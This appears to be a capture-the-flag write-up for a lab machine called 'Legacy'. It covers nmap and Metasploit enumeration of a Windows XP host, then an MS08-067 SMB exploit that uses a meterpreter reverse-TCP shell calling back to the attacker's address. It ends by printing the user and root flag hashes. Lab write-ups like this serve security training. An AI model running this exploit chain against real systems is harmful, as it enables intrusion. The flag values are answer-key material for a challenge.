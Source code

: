 # Legacy

## 1. Overview

### 1.1. Attacks

* SMB

### 1.2. Tools used

**Enumeration** &rarr; `nmap`, `msf`.

**Exploitation** &rarr; `msf`.

## 2. Walkthrough

### 2.1. Enumeration

#### 2.1.1. nmap
Search with `nmap`:

```bash
nmap -p -T4 -A 10.10.10.4
```

##### 2.1.1.1. Ports
![Legacy nmap ports](_v_images/20201003194612787_27957.png)

* **Port: 139 (netbios-ssn)** &rarr; Linux Samba
* **Port: 445 (microsoft-ds)** &rarr; Windows SMB

Both are SMB related (file shares).

##### 2.1.1.2. Host Details

![Legacy Host Details](_v_images/20201003195550666_18455.png)
![Legacy Host Script Results](_v_images/20201003195833909_14253.png)

* **OS** &rarr; Windows XP
* **Computer name** &rarr; LEGACY
* **SMB-Security-Mode**
    * **Message_Signing** &rarr; disabled


#### 2.1.2. Metasploit

```msf
msf5 > use auxiliary/scanner/smb/smb_version
msf5 auxiliary(scanner/smb/smb_version) > set rhosts 10.10.10.4
rhosts => 10.10.10.4
msf5 auxiliary(scanner/smb/smb_version) > run

[+] 10.10.10.4:445        - Host is running Windows XP SP3 (language:English) (name:LEGACY) (workgroup:HTB ) (signatures:optional)
[*] 10.10.10.4:445        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

* **OS** &rarr; Windows XP SP3

### 2.2. Exploitation

#### 2.2.1. Sources

**Google:** `smb windows xp sp3 exploit`

[[Rapid7] MS08-067 Microsoft Server Service Relative Path Stack Corruption ](https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi)

#### 2.2.2. Metasploit

```msf
msf5 > use exploit/windows/smb/ms08_067_netapi
[*] Using configured payload windows/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms08_067_netapi) > set rhosts 10.10.10.4
rhosts => 10.10.10.4
msf5 exploit(windows/smb/ms08_067_netapi) > set LHOST 10.10.14.7
LHOST => 10.10.14.7
msf5 exploit(windows/smb/ms08_067_netapi) > run
```

```sh
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell

C:\WINDOWS\system32>cd "c:\documents and settings\john\desktop"
cd "c:\documents and settings\john\desktop"

C:\Documents and Settings\john\Desktop>type user.txt
type user.txt
e69af0e4f443de7e36876fda4ec7644f
C:\Documents and Settings\john\Desktop>cd "c:\documents and settings\administrator\desktop"

C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
993442d258b0e0ec917cae9e695d5713
```

* **Own User** &rarr; `e69af0e4f443de7e36876fda4ec7644f`
* **Own Root** &rarr; `993442d258b0e0ec917cae9e695d5713`
